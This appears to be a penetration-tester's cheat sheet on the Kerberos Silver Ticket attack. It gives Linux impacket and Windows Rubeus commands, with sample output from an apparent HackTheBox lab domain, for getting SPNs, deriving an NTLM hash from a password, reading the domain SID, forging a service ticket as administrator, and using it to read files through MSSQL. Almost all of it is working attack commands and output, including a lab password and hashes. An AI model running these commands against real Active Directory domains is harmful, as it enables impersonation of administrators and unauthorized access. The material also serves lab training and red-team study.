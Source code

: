 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get Service Principle Name (SPN) \[Optional\]

```console
# Password
impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP> -request
```

```console
# Kerberos
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

```console {class="sample-code"}
$ iconv -f ASCII -t UTF-16LE <(printf 'REGGIE1234ronnie') | openssl dgst -md4 
MD4(stdin)= 1443ec19da4dac4ffc953bca1b57b4cf
```

#### 3. Get Domain SID

```console
sudo ntpdate -s <DC_IP> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.sequel.htb && impacket-getPac -targetUser administrator 'sequel.htb/sql_svc:REGGIE1234ronnie'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   4131845666 
    dwHighDateTime:                  31133135 

---[SNIP]---
 
Domain SID: S-1-5-21-4078382237-1492182817-2568127209

 0000   10 00 00 00 43 04 A9 EA  FD 5C DC 66 5C CE D0 B2   ....C....\.f\...
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC_IP> -spn anything/<DC> administrator
```

```console {class="sample-code"}
$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn anything/dc.sequel.htb administrator
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

#### 5. Import Ticket

```console
export KRB5CCNAME=administrator.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
09/25/24 07:55:27  09/23/34 07:55:27  anything/dc.sequel.htb@SEQUEL.HTB
        renew until 09/23/34 07:55:27
```

#### 7. Access Service

```console
# For example: mssql
impacket-mssqlclient -k <DC>
```

```console {class="sample-code"}
$ impacket-mssqlclient -k dc.sequel.htb                                                
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'2186a912c7f240246fd2c2b04651f9b4\r\n'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get Service Principle Name (SPN) \[Optional\]

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe hash /password:'REGGIE1234ronnie'

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : REGGIE1234ronnie
[*]       rc4_hmac             : 1443EC19DA4DAC4FFC953BCA1B57B4CF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

#### 3. Get Domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate Silver Ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:anything/<DC> /nowrap /ptt
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe silver /domain:sequel.htb /dc:dc.sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443EC19DA4DAC4FFC953BCA1B57B4CF /user:administrator /service:anything/dc.sequel.htb /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : SEQUEL.HTB (SEQUEL)
[*] SID            : S-1-5-21-4078382237-1492182817-2568127209
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : anything
[*] Target         : dc.sequel.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator' to 'anything/dc.sequel.htb'

[*] AuthTime       : 9/24/2024 5:06:04 PM
[*] StartTime      : 9/24/2024 5:06:04 PM
[*] EndTime        : 9/25/2024 3:06:04 AM
[*] RenewTill      : 10/1/2024 5:06:04 PM

[*] base64(ticket.kirbi):

      doIFUTCCBU ---[SNIP]--- F1ZWwuaHRi


[+] Ticket successfully imported!
```

#### 5. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> klist

Current LogonId is 0:0x1293866

Cached Tickets: (1)

#0>     Client: administrator @ SEQUEL.HTB
        Server: anything/dc.sequel.htb @ SEQUEL.HTB
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/24/2024 17:06:04 (local)
        End Time:   9/25/2024 3:06:04 (local)
        Renew Time: 10/1/2024 17:06:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{{< /tabcontent >}}
